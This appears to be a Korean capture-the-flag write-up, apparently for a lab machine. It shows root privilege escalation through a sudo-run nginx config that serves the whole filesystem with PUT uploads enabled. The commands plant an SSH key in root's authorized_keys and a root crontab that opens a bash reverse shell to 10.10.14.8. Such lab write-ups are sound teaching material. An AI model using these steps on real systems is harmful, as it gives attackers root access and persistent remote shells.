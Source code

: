### 악의적인 nignx 포트 열기 (피해자 PC)

root 부터 디렉토리 인덱싱, PUT 메서드로 파일 삽입 (베이스는 /etc/nginx/nginx.conf)

```nginx
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
				worker_connections 768;
}
http {
				server {
						listen 9001;
						location / {
								root /;
								autoindex on;
								dav_methods PUT;
						}
				}
}
```

그리고 sudo nginx 실행
```bash
sudo nginx -c /dev/shm/nginx.conf
```

### root 의 ssh 공개키 업로드 (공격자 PC)

공격자 PC
```bash
ssh-keygen -f broker
curl 10.10.11.243:9001/root/.ssh/authorized_keys --upload-file broker.pub
```

이후 다음 커맨드로 ssh 에 접근하면 root 쉘로 접근할 수 있다.
```bash
ssh -i broker root@10.10.11.243
```

### root의 cron 업로드 (공격자 PC)

**cron**
```bash
* * * * * bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'
```

악의적인 cron 업로드
```bash
curl 10.10.11.243:9001/var/spool/cron/crontabs/root --upload-file cron
```